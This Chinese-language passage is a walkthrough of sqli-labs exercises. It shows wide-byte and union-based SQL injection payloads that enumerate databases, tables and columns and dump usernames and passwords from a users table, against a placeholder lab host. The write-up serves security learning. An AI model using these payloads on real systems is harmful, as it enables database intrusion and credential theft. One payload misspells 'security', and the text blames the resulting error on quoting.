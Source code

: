 **查看所有库**<br />uname=a%df' union select 1,group_concat(schema_name) from information_schema.schemata#&passwd=admin&submit=Submit<br />![](https://img-blog.csdnimg.cn/20200725115848827.png#crop=0&crop=0&crop=1&crop=1&id=qMxZC&originHeight=113&originWidth=884&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有表**<br />uname=a%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema='security'#&passwd=admin&submit=Submit<br />报错<br />![](https://img-blog.csdnimg.cn/2020072512000045.png#crop=0&crop=0&crop=1&crop=1&id=CQ2R3&originHeight=56&originWidth=921&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**将security转为十六进制**<br />uname=a%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479#&passwd=admin&submit=Submit<br />![](https://img-blog.csdnimg.cn/20200725120230133.png#crop=0&crop=0&crop=1&crop=1&id=LAlVY&originHeight=85&originWidth=417&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有字段**<br />uname=a%df' union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273#&passwd=admin&submit=Submit<br />![](https://img-blog.csdnimg.cn/20200725120451599.png#crop=0&crop=0&crop=1&crop=1&id=KhX2g&originHeight=102&originWidth=763&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看账户和密码**<br />uname=a%df' union select 1,group_concat(concat_ws(0x7e,username,password)) from security.users#&passwd=admin&submit=Submit<br />![](https://img-blog.csdnimg.cn/2020072512055376.png#crop=0&crop=0&crop=1&crop=1&id=EN8WN&originHeight=100&originWidth=799&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**以此类推爆出所有数据。**


# Sqli-labs-Less-35 方法一
![](https://img-blog.csdnimg.cn/20200725122034115.png#crop=0&crop=0&crop=1&crop=1&id=Oh75p&originHeight=83&originWidth=1058&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查找注入点**<br />http://www.web.com/sql/Less-35/?id=1'<br />报错<br />![](https://img-blog.csdnimg.cn/2020072512214044.png#crop=0&crop=0&crop=1&crop=1&id=rIkxb&originHeight=67&originWidth=1344&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
在这里1并没有被包裹，所以可以直接注入

**查看列数**<br />http://www.web.com/sql/Less-35/?id=1 order by 3--+<br />当使用4时报错，使用3时返回正确，说明有3列<br />![](https://img-blog.csdnimg.cn/20200725122423322.png#crop=0&crop=0&crop=1&crop=1&id=WQ8B1&originHeight=32&originWidth=437&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看当前库**<br />http://www.web.com/sql/Less-35/?id=-1 union select 1,2,database()--+<br />![](https://img-blog.csdnimg.cn/20200725122535266.png#crop=0&crop=0&crop=1&crop=1&id=xtlPX&originHeight=139&originWidth=297&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有库**<br />http://www.web.com/sql/Less-35/?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata--+<br />![](https://img-blog.csdnimg.cn/20200725122633900.png#crop=0&crop=0&crop=1&crop=1&id=GzbxJ&originHeight=137&originWidth=1224&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有表**<br />http://www.web.com/sql/Less-35/?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='stcurity'--+

**报错，将security转换为十六进制**<br />http://www.web.com/sql/Less-35/?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479--+<br />![](https://img-blog.csdnimg.cn/20200725122826691.png#crop=0&crop=0&crop=1&crop=1&id=NMTLi&originHeight=149&originWidth=576&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
